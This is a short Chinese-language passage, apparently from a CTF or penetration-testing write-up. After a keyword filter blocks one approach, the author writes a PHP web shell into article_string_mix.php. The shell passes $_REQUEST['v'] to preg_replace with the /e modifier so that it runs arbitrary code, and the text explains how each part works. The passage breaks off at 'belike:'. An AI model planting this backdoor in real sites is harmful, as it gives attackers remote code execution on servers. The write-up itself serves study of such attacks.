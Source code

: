   
  

对`$allsource`的值进行修改，如果出现了违禁词，500黑屏。

  
  

所以考虑另一条路<br>

<hr>

通过REQUST方式

>$_REQUEST 是 PHP 中一个超全局变量，用于收集 HTML 表单提交的数据，也可以收集 URL 中的数据。它包含了 $_GET、$_POST 以及 $_COOKIE 的内容。

  

写入`article_string_mix.php`的内容

  

```php

$a = $_REQUEST['v'];

@preg_replace("/123/e", $a, "1234567");

```

  

- `preg_replace` 函数使用参数 `$a` 替换字符串 `"1234567"` 中的匹配项。

- `/123/e` 中的 `123` 是一个简单的正则表达式，它匹配字符串中的 `123`。

- 当使用 `e` 修饰符时，`preg_replace` 会将替换字符串视为 PHP 代码，并将其执行。

  

belike:

  
